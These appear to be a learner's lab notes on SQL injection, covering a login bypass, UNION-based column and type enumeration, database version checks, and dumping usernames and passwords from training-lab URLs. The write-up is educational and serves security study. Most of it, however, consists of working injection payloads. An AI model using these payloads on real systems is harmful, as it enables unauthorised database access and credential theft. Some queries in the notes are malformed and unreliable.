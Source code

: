 1. SQL Injection -Login Vulnerability (Lab #2 SQL injection vulnerability allowing login bypass)


Analysis:
1st Enter a ''' to see if the application breaks

then where the username is known in our case administrator
enter administrator'-- as the username the password can be anything

then the application will login after interpretting the " -- " as comment

the following SQL Query will run:
SELECT from 'firstname' FROM users WHERE username = 'administrator'-- and password ='admin'


2. SQL Injection Query to determine the number of columns returned by an attack then use that to read data from other tables

End Goal: Determine the number of columns returned by the query

SQLi Attack (Way 1)
The following command runs:
select ? from table1 UNION select NULL
-> error : if you get and errot then you have ann incorrect nnumber of columns
e.g https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL--
select ? from table1 UNION select NULL, NULL, NULL..
-> keeping adding the nulls until you get a 200 response code that shows that you have the correct number of columns
https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL,NULL,NULL--
Web Query : GET /filter?category=Gifts'+UNION+select+NULL,+NULL,+NULL--+ 
Number of columns equals : 3
Using Burp:
![Screenshot](img/sqli-burp-column-enum.png)

SQLi Attack(Way #2)
Using 'order-by'
select a,b from table1 order by 3
where three is the number of column we are ordering by f you keeping increasing that number till you get an errr it shows you have reached the maximum number of column and therefore the totoal columns available in that table

![Screenshot](img/sqli-orderby-column-enum.png)
https://ac501f031fb27988c01106bf008d00f4.web-security-academy.net/filter?category=Pets' ORDER BY 4--
The above generates an error because there's no forth column to order anything by mean we reached our maximum number of columns which is 3

3. Determin the data type of the columns
https://acd41ff61f229bd9c078074400f100af.web-security-academy.net/filter?category=Lifestyle'UNION select NULL,'r3AijW',NULL--
each null postion represents a column of a particular data type
iterate the position of the string until you get a 200 Ok
meaning the data type you have inputted in this case a string"r3Aijw' corresponds with the data type of that particular column

4. Retrieving data from other tables using an SQL UNION Injection attack
To do this you must first do steps 2 and 3 i.e determine the number of columns in the a table and determine the data type of the columns

https://ac961f081fc7cda7c06e47f20044001d.web-security-academy.net/filter?category=Gifts'UNION select username,password FROM users WHERE username='administrator'--
NB// The reason why the above query works is because:
a) The table gifts and user both contain 2 columns and hence the need for step 1 where we enumerated the number of columns we were looking for a table that contains
the same number of columns as our user table that contains the username and password columns
b) The password which is the second column of database users is of type string just like the description column in table gifts which is the second column and of type string

5. Output data from other tables 

Goal : retrieve usernames and passwords from table users
- Determine the type of database in use because different databases use different operators to perform database actions see cheatsheet below:
e.g string concatenation
String concatenation

You can concatenate together multiple strings to make a single string.
Oracle 	'foo'||'bar'
Microsoft 	'foo'+'bar'
PostgreSQL 	'foo'||'bar'
MySQL 	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')

Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version 

In a query:
https://ac111f201ee804f0c12017f4004f002f.web-security-academy.net/filter?category=Tech+gifts'UNION select NULL,version()--
Query and database details get reflected on the page
![Screenshot](img/checked-dbversion.png)

with our database version in mind retrieve all username and passwords as follows:
https://acc91fed1f128145c03d103200d8002c.web-security-academy.net/filter?category=Tech+gifts'UNION select NULL,username|| '*' || password from users--


Lab #9 - SQL Injections attack listing database contents on a non-oracle database

End Goals:
- Determine the table that contains username and passwords
- Output the contents of the table
-  Login as adminstrator

Steps to Reproduce:

1. Find the number of columns

https://ac501f031fb27988c01106bf008d00f4.web-security-academy.net/filter?category=Pets' ORDER BY 3--
ORDER BY 3-- -> cause an internal server error
therefore number of columns = 3-1 = 2
columns =2

2. Find the data type of the columns
'UNION select 'a','a'--
We get a 200 OK 'a' and 'a' are reflected on the page because the correspond with the datatype of our columns

3. Confirm the database version

'UNION SELECT @@version,NULL--
We get an error confirming that it is not a Microsoft Database that we are dealing with
NB// The null is included in the query as a placeholder for the second column, remember our database has 2 columns

'UNION SELECT version(),NULL--
We get a 200 Ok , confirming that it is a Postgres Database

POSTGRESQL 11.11(Debian)
4. Output the list of table names in the database
'UNION select table_name,NULL from information_schema.tables--

users_xdwsxl - in our case this is our table of interest

5. Output the column names of the table

' UNION select column_name, NULL from information_schema.columns WHERE table_name = 'users_xdwsxl'--

username_amznqg
password_hbzemh

6. Output the usernmae and passwords

' UNION select username_amznqg,password_hbzemh from users_xdwsxl--

administrator
l1em8s82jv6f0y78aw3h